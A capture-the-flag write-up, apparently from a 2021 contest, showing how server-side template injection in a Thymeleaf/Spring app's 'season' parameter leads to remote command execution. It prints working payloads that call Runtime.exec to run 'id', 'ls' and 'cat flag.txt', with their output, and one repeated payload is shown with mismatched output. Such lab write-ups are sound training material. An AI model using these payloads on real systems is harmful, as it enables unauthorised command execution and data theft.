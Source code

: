 # The Five Seasons
Did you know there were five seasons?

Find the flag file!

http://46.101.107.117:2111

---


![](seasons.png)

The URL for winter season is `/season?season=wi`.

Let's tamper the query param `?season=hello`:

```
Whitelabel Error Page

This application has no explicit mapping for /error, so you are seeing this as a fallback.
Tue Apr 20 20:42:26 UTC 2021
There was an unexpected error (type=Internal Server Error, status=500).
Error resolving template [page-hello], template might not exist or might not be accessible by any of the configured Template Resolvers
```

A quick Google search for the error message took me to
https://stackoverflow.com/questions/31944355/error-resolving-template-index-template-might-not-exist-or-might-not-be-acces.

So it's backed by [Thymeleaf](https://www.thymeleaf.org/) template engine!

Suspecting _server-side template injection_, I looked for _Thymeleaf vulnerabilities_, and I found the following
articles:
- https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
- https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability

I tested the example payload:
```
/season?season=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
```

It worked! See the response:
```
Error resolving template [page-uid=999(seasons)], template might not exist or might not be accessible by any of the configured Template Resolvers
```

Next, I tried:
```
/season?season=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x

Error resolving template [page-app.jar], template might not exist or might not be accessible by any of the configured Template Resolvers
```

There is one issue though, `java.util.Scanner.next()` returns just the first record ...

I changed the payload to:
```
/season?season=__${new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec("ls").getInputStream(),"utf-8")).lines().collect(T(java.util.stream.Collectors).joining(" "))}__::.x

Error resolving template [page-app.jar flag.txt start.sh], template might not exist or might not be accessible by any of the configured Template Resolvers
```

Nice one! Finally, read `flag.txt`:
```
/season?season=__${new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec("cat flag.txt").getInputStream(),"utf-8")).lines().collect(T(java.util.stream.Collectors).joining(" "))}__::.x

Error resolving template [page-well done, here is your flag: he2021{Spr1ng_1s_my_f4vrt_s34sn!}], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The flag is `he2021{Spr1ng_1s_my_f4vrt_s34sn!}`